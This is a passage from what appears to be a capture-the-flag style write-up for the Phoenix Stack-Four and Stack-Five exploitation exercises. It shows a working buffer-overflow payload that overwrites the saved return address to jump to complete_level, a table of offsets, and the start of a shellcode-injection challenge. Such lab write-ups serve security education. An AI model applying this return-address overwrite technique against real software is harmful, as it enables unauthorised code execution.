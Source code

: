 
## Final Payload

```python
payload = b"A" * 88 + p64(0x40061d)  # Address of complete_level
```

---

## Success Output

When executed correctly:

![success](/assets/phoenix/success3.png)

```
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

---

## Summary Table

| Component      | Value                                       |
| -------------- | ------------------------------------------- |
| Buffer start   | `rbp - 0x50`                                |
| Return address | `rbp + 0x8`                                 |
| Total offset   | 88 bytes                                    |
| Target address | `complete_level()` = `0x40061d`             |
| Function call  | `gets()`                                    |
| Exploit type   | Stack buffer overflow (saved RIP overwrite) |

---

---

# Stack-Five

**Challenge**: [Phoenix/Stack-Five](https://exploit.education/phoenix/stack-five/)

**Goal**: The objective is to exploit a buffer overflow vulnerability by injecting shellcode and gaining control of the instruction pointer (RIP) to jump to that shellcode.

---
